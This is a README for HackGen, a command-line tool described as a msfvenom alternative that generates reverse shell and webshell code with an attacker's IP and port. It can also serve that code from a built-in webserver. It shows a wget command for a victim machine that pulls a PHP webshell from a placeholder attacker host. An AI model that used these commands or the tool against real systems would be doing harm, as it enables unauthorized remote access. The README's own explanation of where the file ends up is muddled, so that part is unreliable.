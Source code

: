 # HackGen
> Pretty much msfvenom, but I hate Metasploit >:(

## Installation:
- Clone this repo to whatever directory you want.
  Note: This repo uses submodules so use the command below to avoid headaches:
```
git clone --recurse-submodules https://github.com/owenCocjin/HackGen.git
```
- Change the path of the rshells.db database to the <b>ABSOLUTE</b> path of the install dir
- Optional: Link the "hackgen.py" script to somewhere in your path so it can be executed from anywhere!

## Usage:
> Use the `-h` flag for details on the usage.

This script was created to easily produce reverse shell codes with an attacker's IP & port in the script.
It can also urlencode or base64 encode the resulting script.
### Webserver:
One fun feature is that you can start hackgen as a webserver which makes it incredibly easy to get rshell code onto a target.
Once the hackgen command us run with the `-w` flag, it will start a webserver on port 8000. When a GET request is sent to the server, it will reply with just the rshell string. Because the server will return the same rhsell code no matter the requested endpoint, a simple way to save to a file is to use `wget` to get a specific page from the server. Because all "pages" return the same thing, wget will end up writing the retrieved rshell to the fetched page. For example, if we wanted to write a PHP webshell to file "webshell.php", on the attacker machine we would run the command:
```
hackgen.py <your ip> <your port> -wf php -n webshell
```
And on the victim machine, we would run:
```
wget http://<your ip>:8000/webshell.php
```
This will save the PHP webshell to the attacker machine under the filename: "webshell.php"
